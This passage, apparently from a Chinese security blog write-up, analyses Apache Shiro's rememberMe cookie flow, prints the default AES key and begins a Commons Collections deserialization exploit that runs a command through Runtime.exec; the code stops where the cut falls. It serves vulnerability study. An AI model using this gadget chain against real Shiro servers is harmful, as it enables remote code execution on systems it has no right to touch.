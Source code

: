 
非常简单的一个Base64解码，解码之后则是调用了`convertBytesToPrincipals`，跟进该方法：

```java
    protected PrincipalCollection convertBytesToPrincipals(byte[] bytes, SubjectContext subjectContext) {
        if (this.getCipherService() != null) {
            bytes = this.decrypt(bytes);
        }

        return this.deserialize(bytes);
    }
```

这里调用了`decrypt`方法，然后就是一个AES的解密，然后进行了一次反序列化。

### Shiro反序列化利用

在上面的过程中，我们分析了整一套Cookie处理流程，但是现在有一个问题就是Shiro在处理 Cookie时，使用了AES加密，而AES加密是需要密钥的，如果我们能拿到密钥的话，这就可以很轻松地让服务器反序列我们的数据。

在`AbstractRememberMeManager`类中：

```java
private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
```

这里给出了默认的AES密钥，于是参考CC链，我们可以构造如下EXP：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.*;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.*;
import java.util.HashMap;
import java.util.Map;

import org.apache.shiro.codec.Base64;
import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.crypto.CipherService;
import org.apache.shiro.io.DefaultSerializer;
import org.apache.shiro.io.Serializer;
import org.apache.shiro.subject.PrincipalCollection;
import org.apache.shiro.util.ByteSource;

public class Main {
    public static void main(String[] args) throws Exception{
        ChainedTransformer chain = new ChainedTransformer(new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new Object[]{"notepad"})});
//        chain.transform(0);
        HashMap inMap = new HashMap();
        Class LZMClass = Class.forName("org.apache.commons.collections.map.LazyMap");
        Constructor lzm_constructor = LZMClass.getDeclaredConstructors()[0];
        lzm_constructor.setAccessible(true);
        LazyMap map = (LazyMap) lzm_constructor.newInstance(inMap, chain);
```